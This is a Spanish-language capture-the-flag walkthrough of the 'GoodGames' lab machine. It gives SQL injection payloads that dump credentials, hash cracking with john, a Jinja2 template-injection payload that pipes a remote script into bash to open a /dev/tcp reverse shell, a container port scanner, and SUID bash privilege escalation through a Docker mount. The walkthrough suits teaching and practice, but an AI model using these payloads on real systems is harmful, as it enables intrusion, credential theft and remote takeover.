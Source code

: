 ```yaml
---
title: "GoodGames"
description: "GoodGames"
pubDate: 2025-05-20
---
```


https://www.youtube.com/watch?v=r3WMeRtwmFc&t=6499s
\#docker

# Fase de reconocimiento

Puerto:
80

## Fuzzing

````
nmap --script http-enum -p80 <ip>
````

# Fase de ataque

## SQLI

El Login es vulnerable a SQLI

````
' or 1=1-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520194757.png)
Buscamos la cantidad de columnas, hasta encontrar las exactas

````
' order by 4-- -
````

Seleccionamos todas las columnas y le ponemos un nombre para encontrarlas

````
' union select 1,2,3,4-- -
````

Ver la base de datos en uso

````
' union select 1,2,3,database()-- -
````

Ver todas las bases de datos

````
' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- -
````

Ver tablas

````
' union select 1,2,3,table_name from information_schema.tables-- -
````

Ver columnas

````
' union select 1,2,3,column_name from information_schema.columns where table_schema='<BBDD>' and table_name='<tabla>'-- -
````

Ver contenido de las columnas

````
' union select 1,2,3,group_concat(user,':',pass) from '<tabla>'-- -
````

Hay contraseña hasheada y usuario

Identificar Hash

````
hash-identifier
````

Crackear hash

````
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
````

## SSTI Server Side Template Injection

Hay un sitio en la web donde puedes cambiar tu nombre
Si es vulnerable a SSTI al poner

````
{{7*7}}
````

y sale 49 es vulnerable
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520200349.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520200514.png)
Buscamos un Payload one line para inyectar y conseguir acceso a la maquina
https://github.com/swisskyrepo/PayloadsAllTheThings

### RCE

1. Creamos el reverse shell

````
#!/bin/bash

bash -i >& /dev/tcp/<ipa>/443 0>&1
````

2. Nos ponemos en escucha

````
nc -nlvp 443
````

Ponemso la shell en puerto 80

````
python3 -m http.server 80
````

3. Lanzamos el RCE en la web

````
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://<ipa>/shell.html | bash').read() }}
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520201506.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

````
stty rows 44 columns 184
````

Parece que estamos dentro de un Docker

# Privilege Escalation

## Docker

Ya somos root

## Pivoting

Buscamos puertos abiertos con un script en bash

````bash
#!/bin/bash
function ctrl_c(){
		echo -e "\n\n[!] Saliendo\n"
		tput cnorm; exit 1
}
trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
		timeout 1 bash -x "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Puerto abierto" &
done; wait
tput cnorm
````

Movemos el script en bash a el docker victima

1. Comprimios en base64

````
base64 -w 0 scanner.sh
````

2. Lo copiamos

````
echo <cadenabase64> | base64 -d > scanner.sh
````

Ejecutamos en busca de puertos abiertos
Nos intentamos conectar con SSH a la maquina victima reutilizando contraseña de la BBDD

\[-\] ==pwned!==

## Privilege Escalation with Docker mount

Como el directorio /home/user esta montado en el docker donde somos root y tenemos permiso de escritura en la montura.

1. Copiamos el /bin/bash en este directorio host

````
cp /bin/bash /home/user
````

2. Nos volvemos al docker
2. Cambiamos los permisos

````
chown root:root bash
````

4. Asignamos un privilegio SUID

````
chmod 4755 bash
````

5. Volvemos a la maquina host
5. Ejecutamos la bash (Los permisos SUID se habrán cambiado)

````
./bash -p
````

\[+\] ==pwned!==
